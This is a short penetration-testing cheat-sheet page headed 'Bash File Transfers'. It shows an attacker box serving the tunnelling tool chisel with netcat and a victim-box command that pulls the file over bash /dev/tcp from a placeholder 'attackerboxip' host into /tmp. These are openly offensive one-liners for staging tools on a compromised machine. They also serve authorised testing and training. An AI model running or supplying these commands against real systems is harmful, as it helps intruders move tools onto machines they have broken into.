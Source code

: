 # Bash File Transfers

## Simple File Transfers

<pre class="language-bash">
<code class="lang-bash"># Attacker Box
nc -lnvp 8000 &#x3C; chisel

# Victim Box
bash -c "cat &#x3C; /dev/tcp/attackerboxip/8000 > /tmp/chisel"
</code></pre>

